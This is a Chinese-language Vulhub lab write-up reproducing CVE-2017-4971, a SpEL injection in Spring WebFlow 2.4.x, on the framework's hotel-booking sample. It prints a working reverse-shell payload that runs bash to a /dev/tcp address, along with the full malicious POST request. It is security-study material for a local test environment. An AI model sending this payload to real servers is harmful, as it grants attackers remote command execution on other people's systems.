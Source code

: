 # Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例。

## 漏洞复现

首先访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![image-20220301141732657](images/202203011417883.png)

然后访问id为1的酒店`http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![image-20220301141904282](images/202203011419530.png)

再点击确认“Confirm”：

![image-20220301141916160](images/202203011419396.png)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的POST数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

![image-20220301143832936](images/202203011438058.png)

成功执行，获得shell：

![image-20220301143749029](images/202203011437112.png)

